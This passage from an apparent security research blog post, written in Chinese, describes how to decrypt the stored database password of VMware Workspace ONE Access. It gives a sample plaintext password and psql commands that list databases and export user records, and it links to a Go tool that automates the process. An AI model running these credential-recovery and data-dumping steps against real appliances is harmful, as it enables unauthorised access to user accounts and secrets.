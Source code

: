 ### 2.数据解密

代码如下：

```
        String devalue = "BAACs8MW1xyMe7/8ONd2QwtG3mw37wF1/1pQ6D09xXqf56ncfRtCun6y8A1XFtjajhU60V1QNYnCOxk3t1m0dV0JvA==";
        System.out.println(encrypter.decrypt(devalue));
```

解密出明文口令`KuxmsscstQhxnqeFBzawyyML-Dascx0i`，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2022-4-25/2-6.png)

同`/usr/local/horizon/conf/db.pwd`中的内容一致，解密成功

## 0x04 数据库操作
---

#### (1)查看所有数据库

`psql -h localhost -U horizon -l`

输入连接口令`KuxmsscstQhxnqeFBzawyyML-Dascx0i`

查询结果如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2022-4-25/3-1.png)

存储数据的数据库为`saas`

#### (2)导出用户表信息

`psql -h localhost -U horizon -c 'SELECT "strUsername" FROM "Users";' -d saas -W`

输入连接口令`KuxmsscstQhxnqeFBzawyyML-Dascx0i`

这里需要注意，对于PostgreSql数据库，查询含有大写字母的字段必须加双引号，否则报错提示找不到表名

查询结果如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2022-4-25/3-2.png)

以上操作的Golang语言实现代码已上传至github，地址如下：

https://github.com/3gstudent/Homework-of-Go/blob/master/WorkspaceONE_Query_PostgreSQL.go

导出口令信息，结果如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2022-4-25/3-3.png)

## 0x05 小结
---

本文介绍了利用VMware Workspace ONE Access漏洞调试环境破解数据库加密口令的方法，记录技术细节。


---


[LEAVE A REPLY](https://github.com/3gstudent/feedback/issues/new)

